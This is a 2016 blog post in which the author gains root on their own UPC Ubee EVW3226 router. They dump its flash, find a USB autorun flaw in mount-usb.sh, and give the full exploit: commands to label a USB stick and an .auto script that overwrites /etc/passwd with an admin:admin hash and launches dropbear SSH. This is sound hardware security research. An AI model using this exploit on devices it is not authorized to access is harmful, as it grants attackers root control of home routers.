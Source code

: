 +++
Description = "UPC Ubee EVW3226 Fail"
title = "UPC Ubee EVW3226 Fail"
date = "2016-01-17T12:45:00+01:00"
metakeys = ["Ubee EVW3226", "UPC", "root shell", "hacking"]

+++

Inspired by [Blasty](https://twitter.com/bl4sty) and his [UPC Wifi key generator](https://haxx.in/upc-wifi/) I decided to take a look at my UPC router too. It's a **Ubee EVW3226** with a custom firmware built by UPC providing a modified web interface and a lot of other stuff.

<!--more-->

First I tried to identify some debug pins on the board and found multiple possible UART connectors. I connected my [Buspirate](https://www.sparkfun.com/products/9544) to the first UART and got a login shell protected by a password. I tried some default passwords but was not able to get in so I needed to find another way. According to [another blog post](https://freeture.ch/post/2015-03-06-upc-router-evw3226-part3-r00t/) I found there is also a second UART connector with no password but this one was not working on my device.

[![UART](/img/ubee/uart_thumb.png)](/img/ubee/uart.png)

So I took a deeper look at the chips on the board and identified two flash chips: *Spansion FL128PIF*. By looking at the [datasheet](http://www.spansion.com/Support/Datasheets/S25FL128P_00.pdf) I discovered there are some SPI pins on the chip to dump its content (or write to it). So I attached a SOIC test clip on top of the flash chip and connected my [GoodFET](http://goodfet.sourceforge.net/) to it. Using the test clip is a good alternative because there is no need to desolder any chips. I was able to dump the whole 16MB memory of each chip using this method with `spiflash dump`. The address ranges to dump can be taken from the datasheet too.

[![DUMP](/img/ubee/testpin_thumb.png)](/img/ubee/testpin.png)

The next thing to do was to extract the content of the dumped images. By using the latest development version of [binwalk](https://github.com/devttys0/binwalk) I was able to extract the file system contents of both chips. This dump only contains the firmware with no dynamic content from UPC so far so the running config is still missing.

After peeking around some binaries with IDA I found the following code in *aimDaemon*:

[![Extract Label](/img/ubee/extract_label_thumb.png)](/img/ubee/extract_label.png)

[![Extract Label](/img/ubee/check_label_thumb.png)](/img/ubee/check_label.png)

[![Extract Label](/img/ubee/execute_shell_thumb.png)](/img/ubee/execute_shell.png)

The snippets show the relevant code sections: The binary extracts the label of an external attached USB device and if it matches `EVW3226` it executes `/var/tmp/mount-usb.sh` with `go` as a first parameter.

`mount_usb.sh`:
```bash
#!/bin/bash
if [ $1 == "go" ]; then
  dev_path=$(blkid /dev/sd |cut -c 1-9)
  eval $(blkid /dev/sd |cut -d " " -f 2)
  eval $(blkid /dev/sd |cut -d " " -f 3)
  eval $(blkid /dev/sd |cut -d " " -f 4)
  echo "dev_path=\"$dev_path\" LABEL=\"$LABEL\" UUID=\"$UUID\" TYPE=\"$TYPE\"" >> /tmp/mountlist

  umount_folder=$(mount | grep "/var/tmp" | awk '{print $3}')
  for curr_folder in $umount_folder ; do
      if [ -n "$curr_folder"]; then
  		umount -l $curr_folder
          rm -fr $curr_folder
  	  fi
  done

  for curr_folder in $UUID ; do
    mkdir /var/tmp/media/$curr_folder -p
    if [ "$TYPE" == "ntfs" ]; then
      	echo "ntfs-3g "$dev_path" /var/tmp/media/"$curr_folder
      	ntfs-3g $dev_path /var/tmp/media/$curr_folder
    else
      	echo "mount "$dev_path" /var/tmp/media/"$curr_folder
      	mount $dev_path /var/tmp/media/$curr_folder
    fi
    if test -f /var/tmp/media/$curr_folder/.auto
	then
	    rm -fr /var/tmp/disk
	    cd /var/tmp
	    ln -s /var/tmp/media/$curr_folder disk
	   	chmod +x /var/tmp/media/$curr_folder/.auto
	   	sh /var/tmp/media/$curr_folder/.auto
	fi
    done
    if [ $2 == "1" ]; then
    	killall minidlna
    	/fss/fss2/sbin/minidlna -R -f /var/tmp/minidlna.conf
    fi
else
echo $1 ... >> /var/tmp/.usbadd
fi
```

As you may see this script mounts the usb stick and checks if the stick has a `.auto` file present. If the file exists a symbolic link to `/var/tmp/disk` is created and the `.auto` file is executed with `sh`.

So by creating an USB stick with the correct label and this autorun file we are able to execute any commands we like on the router.

The device is capable of running in router or in bridge mode. It looks like there is some check in place to only execute the script when running in `router` mode so be sure to switch to this mode if you want to try it on your own.

So lets first prepare our USB stick:

```bash
umount /dev/sdb1
fdisk /dev/sdb # clear partition table and create a new primary partition
mkfs.vfat /dev/sdb1
mlabel -i /dev/sdb1 ::EVW3226
```

Let's try to start a telnet server on the device by putting the following in the `.auto` file:

```bash
telnetd &
```

After plugging the stick in and waiting a few seconds I was able to connect via telnet. Unfortunately it seems some process is killing `telnetd` on a regular basis so it's no stable way to get access to the device.

Luckily there is also dropbear present so we can start a ssh server. The filesystem is missing the required hostkeys so I recreated them on a Ubuntu VM on the USB stick by

```bash
dropbearkey -t rsa -f /media/firefart/EVW3226/dropbear_rsa_host_key
```

As I was not able to crack the password hashes in a reasonable time we also need to add our own user. I did this by just overwriting `/etc/passwd` with an `admin:admin` hash.

So the final `.auto` file looks like

```bash
#!/bin/bash
echo admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh > /etc/passwd
dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22
```

After plugging in the USB-Stick and waiting a few seconds we can connect to the device using ssh and login using the password `admin`.

```bash
ssh admin@192.168.0.1
```

The next steps are to peek around the device. There are already a lot of passwords and private keys lying around in the firmware image.

There was also a great talk on 32C3 - [Beyond Your Cable Modem](https://media.ccc.de/v/32c3-7133-beyond_your_cable_modem) which gives some good ideas what to check next.
